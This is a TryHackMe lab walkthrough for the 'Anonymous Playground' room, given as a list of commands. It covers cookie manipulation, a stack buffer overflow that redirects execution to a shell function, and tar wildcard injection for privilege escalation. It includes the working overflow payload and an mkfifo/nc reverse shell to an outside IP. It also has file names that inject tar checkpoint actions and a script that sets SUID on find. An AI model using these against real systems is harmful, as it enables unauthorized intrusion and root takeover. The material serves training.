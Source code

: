 # TryHackMe-Anonymous Playground

**Scope:**

- Binary Buffer Overflow
- Wildcard Manipulation

**Keywords:**

- Cookie Manipulation
- Decoding Secret
- Shell Commands
- SSH File Transfer
- Binary Analysis
- Buffer Overflow Approaches
- Wildcard Manipulation
- r2
- readelf

**Main Commands:**

- `nmap -sT -sC -sV -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `curl -iLX GET -D response.txt http://anonymousplayground.thm/zYdHuAKjP`
- `curl -iL -s -k -X $'GET' -H $'Host: anonymousplayground.thm' -b $'access=granted' $'http://anonymousplayground.thm/zYdHuAKjP/'`
- `curl -is http://anonymousplayground.thm/operatives.php | grep '<li>' | awk -F '>' '{print $2}' | tr '<' ' ' | awk '{print $1}' | tee anonymoususers.txt`
- `ssh -o MACs=hmac-sha2-256 magna@anonymousplayground.thm -p 22`
- `scp -o MACs=hmac-sha2-256 magna@anonymousplayground.thm:hacktheworld /root/Desktop/CyberLearningFramework/anonymousplayground/hacktheworld`
- `r2 -d hacktheworld`
- `python2.7 -c "print 'a' *100" | ./hacktheworld`
- `for i in {1..100} ;do echo $i ;python -c "print('A'*$i)" | ./hacktheworld ;done`
- `python2.7 -c "print 'a' *72" | ./hacktheworld`
- `printf '%x\n' 72`
- `readelf -a hacktheworld | grep -i call_bash`
- `echo "0000000000400657" | sed 's/../\\x&/g’`
- `echo -ne '\x00\x00\x00\x00\x00\x40\x06\x57' | xxd -p | tac -rs .. | sed 's/\(..\)/\\x\1/g'`
- `python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | ./hacktheworld`
- `(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`

**System Commands:**

- `uname -a`
- `whoami`
- `dpkg --version`
- `file hacktheworld`
- `i`
- `aaaa`
- `afl`
- `pdf @main`
- `s sym.call_bash`
- `pdf`
- `iz`
- `dc`
- `pxl 4 @ 0x7ffff5e81288`
- `(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`
- `python3 -c "import pty;pty.spawn('/bin/bash')”`
- `cat /etc/crontab`
- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21232 >/tmp/f" > revshell.sh`
- `echo "chmod u+s /usr/bin/find" > findexp.sh`
- `echo "" > "--checkpoint-action=exec=sh revshell.sh"`
- `echo "" > --checkpoint=1`